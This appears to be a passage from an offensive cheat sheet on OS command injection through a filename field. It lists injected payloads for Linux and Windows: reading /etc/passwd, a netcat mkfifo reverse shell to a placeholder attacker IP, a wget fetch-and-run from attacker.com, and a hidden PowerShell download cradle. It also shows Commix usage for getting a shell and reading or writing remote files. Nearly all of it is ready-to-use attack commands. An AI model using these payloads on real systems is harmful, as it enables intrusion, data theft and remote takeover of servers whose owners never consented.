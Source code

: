 ## Exploitation Examples

### Linux/Unix

#### Read `/etc/passwd`
`example.jpg; cat /etc/passwd`  

#### Check current user  
`example.jpg; whoami`  

#### List directory contents
`example.jpg; ls -la /`  

#### Create a reverse shell (Netcat)
On attacker: `nc -lvnp 9001`  

Payload (URL encoded if in GET parameter): `example.jpg; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 9001 >/tmp/f`  

#### Download and execute a script
`example.jpg; wget http://attacker.com/shell.sh -O /tmp/shell.sh; chmod +x /tmp/shell.sh; /tmp/shell.sh`

### Windows

#### Check current user
`example.jpg & whoami`

#### List directory contents
`example.jpg & dir C:\`  

#### Read a sensitive file
`example.jpg & type C:\Windows\System32\drivers\etc\hosts`  

#### Create a reverse shell (PowerShell)
On attacker: `nc -lvnp 9001`  

Payload: `example.jpg & powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command "IEX (New-Object System.Net.WebClient).DownloadString('http://attacker.com/shell.ps1');"` (where `shell.ps1` contains a PowerShell reverse shell script).

## Tools for Exploitation

#### Commix (Automated OS Command Injection and Exploitation Tool)
A powerful open-source tool that automates the detection and exploitation of command injection vulnerabilities.  

**Basic Usage**:
        ```bash
        commix --url="http://example.com/vulnerable?param=test" --batch
        ```
*   **`--url`**: Target URL.
*   **`--data`**: If injecting into POST data.
*   **`--cookie`**: If injecting via cookie.
*   **`--os-shell`**: Attempt to get an interactive OS shell.
*   **`--file-read <path>`**: Read a remote file.
*   **`--file-write <local_path> --file-dest <remote_path>`**: Write a local file to the remote server.
*   **`--blind=time`**: Force time-based blind detection.
*   **`--proxy="http://127.0.0.1:8080"`**: Use a proxy like Burp Suite.
